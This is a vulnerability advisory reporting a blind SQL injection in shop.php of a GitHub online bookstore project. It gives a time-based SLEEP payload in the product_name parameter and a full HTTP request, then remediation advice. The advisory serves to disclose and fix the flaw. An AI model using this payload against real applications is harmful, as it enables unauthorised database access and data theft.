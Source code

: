 # keerti1924 / Online-Book-Store-Website - shop.php Blind SQL Injection

## Vendor Homepage:
[Online-Book-Store-Website](https://github.com/keerti1924/Online-Book-Store-Website)

## Impact
The 'shop.php' script in keerti1924's Online-Book-Store-Website is vulnerable to Blind SQL Injection attacks. An attacker could exploit this vulnerability to execute arbitrary SQL queries on the underlying database, potentially leading to unauthorized access to sensitive information or data manipulation.

## Proof of Concept
Step 1: Login as a normal user\
Step 2: Add any book to cart
Step 3: Intercept the POST request and inject the following payload into the 'product_name' parameter: "nochizplz'+OR+SLEEP(10)%23". \ 
Step 4: Submit the request and observe a 10-second delay in the response.\

## HTTP Request Example
``` http request
POST /shop.php HTTP/1.1
Host: [REDACTED]
Content-Length: 119
Cache-Control: max-age=0
sec-ch-ua:
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: ""
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: [REDACTED] 
Connection: close

product_quantity=1&product_name=nochizplz'+OR+SLEEP(10)%23&product_price=123.00&product_image=133.php&add_to_cart=Add+to+cart
```

## Proof with screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/60700937/1e916bbb-bfbe-4b7a-9994-2c7bc120f567)


## Remidiation
To mitigate this issue, developers should implement proper input validation and parameterized queries to prevent SQL injection attacks. Additionally, limiting the privileges of the database user used by the application and enforcing least privilege principles can further reduce the impact of SQL injection vulnerabilities.

## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)
